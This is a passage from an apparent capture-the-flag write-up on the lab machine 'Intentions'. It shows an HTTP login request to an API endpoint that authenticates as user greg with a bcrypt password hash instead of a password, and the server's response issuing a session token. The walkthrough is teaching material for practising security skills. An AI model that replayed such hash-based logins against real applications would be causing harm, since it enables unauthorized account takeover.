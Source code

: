 ```
                    href: "https://www.php.net/manual/en/class.imagick.php"
                }
            }, [t._v("Image Feature Reference")])])])])])
```

Using this information i tried to log into the application using greg his username and hash.

**Request**
```
POST /api/v2/auth/login HTTP/1.1
Host: 10.10.11.220
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: application/json
X-XSRF-TOKEN: eyJpdiI6Ik1OUXFUc29VZjZwN3VxY0dtT045cmc9PSIsInZhbHVlIjoiU1dIN1lzQ0N4bURXdjMzMFdWQlNIRlN1b0lNRlRHdWlCVGpJWFlkZnhTdXA3SktyclFZTCtsUnN0NGdDVkc1bTY3VE80YnJpUkN2SDg4TFRWcUszWXpFaE4vaE5CRjBQNzdMK2FUVmkzb1AzQ2UxVjZaci9jRHJRaHdObVNsRUwiLCJtYWMiOiJkNmIyMjNiMzQ1YjczMDhmODllODNiNWUxMDJiYmU0ZTBmZGNiOWFkM2NiYjkxZDQ1NmJhZGI3N2QyYzk0NzZmIiwidGFnIjoiIn0=
Content-Length: 101
Origin: http://10.10.11.220
Connection: close
Referer: http://10.10.11.220/
Cookie: XSRF-TOKEN=eyJpdiI6Ik1OUXFUc29VZjZwN3VxY0dtT045cmc9PSIsInZhbHVlIjoiU1dIN1lzQ0N4bURXdjMzMFdWQlNIRlN1b0lNRlRHdWlCVGpJWFlkZnhTdXA3SktyclFZTCtsUnN0NGdDVkc1bTY3VE80YnJpUkN2SDg4TFRWcUszWXpFaE4vaE5CRjBQNzdMK2FUVmkzb1AzQ2UxVjZaci9jRHJRaHdObVNsRUwiLCJtYWMiOiJkNmIyMjNiMzQ1YjczMDhmODllODNiNWUxMDJiYmU0ZTBmZGNiOWFkM2NiYjkxZDQ1NmJhZGI3N2QyYzk0NzZmIiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6IlNzbUtTZitVS0R2ZGJPdUpZL2IreFE9PSIsInZhbHVlIjoiU1hwMlQvT3kwWUhGTzhFZW9NUXdNOU1nS0lTeFpZUDhBZnJsMWFCZzh1R2QyU0VUWUhUYkZ6SjZnU29lOTA4Q250ZXpwUi82dVh0c0Z2Y0RYeTRCdE5OVTBhMnNJamN6eTljQ2lGTy9iZEp4UUdPdTcyY016Rmkvc3piemFXN2QiLCJtYWMiOiIxOTlhNjE2MDgxYzI5NzlkZWU2OGQ4ZjQ3OGM3MGJjZDIzODczZGI2MWMzOWRlYWM1OGQ1MGI3MjYwYTYwYTMyIiwidGFnIjoiIn0%3D; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTAuMTEuMjIwL2FwaS92MS9hdXRoL2xvZ2luIiwiaWF0IjoxNjk3Mjg0NjU0LCJleHAiOjE2OTczMDYyNTQsIm5iZiI6MTY5NzI4NDY1NCwianRpIjoiZzZzNTZReGFoRG16SFNuZyIsInN1YiI6IjMxIiwicHJ2IjoiMjNiZDVjODk0OWY2MDBhZGIzOWU3MDFjNDAwODcyZGI3YTU5NzZmNyJ9.tnyyIOfboawY1Wmw6jIJF_GgwKMG8AqUDzrfV-u6H2k

{"email":"greg@intentions.htb","hash":"$2y$10$95OR7nHSkYuFUUxsT1KS6uoQ93aufmrpknz4jwRqzIbsUpRiiyU5m"
```

This server then issued the following response giving us a valid session token

**Response**
```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Content-Type: application/json
Connection: close
Cache-Control: no-cache, private
Date: Sat, 14 Oct 2023 14:17:03 GMT
Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTAuMTEuMjIwL2FwaS92Mi9hdXRoL2xvZ2luIiwiaWF0IjoxNjk3MjkzMDIzLCJleHAiOjE2OTczMTQ2MjMsIm5iZiI6MTY5NzI5MzAyMywianRpIjoiMzhnTmMxRGtIZ0lQREJGcSIsInN1YiI6IjIiLCJwcnYiOiIyM2JkNWM4OTQ5ZjYwMGFkYjM5ZTcwMWM0MDA4NzJkYjdhNTk3NmY3In0.HBdW-t5hCQ8e71PJp04u0FfkDBZoduAtVY7Pp9BmWsE
X-RateLimit-Limit: 3600
X-RateLimit-Remaining: 3598
Access-Control-Allow-Origin: *
Set-Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTAuMTEuMjIwL2FwaS92Mi9hdXRoL2xvZ2luIiwiaWF0IjoxNjk3MjkzMDIzLCJleHAiOjE2OTczMTQ2MjMsIm5iZiI6MTY5NzI5MzAyMywianRpIjoiMzhnTmMxRGtIZ0lQREJGcSIsInN1YiI6IjIiLCJwcnYiOiIyM2JkNWM4OTQ5ZjYwMGFkYjM5ZTcwMWM0MDA4NzJkYjdhNTk3NmY3In0.HBdW-t5hCQ8e71PJp04u0FfkDBZoduAtVY7Pp9BmWsE; expires=Sat, 14-Oct-2023 20:17:03 GMT; Max-Age=21600; path=/; httponly; samesite=lax
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
```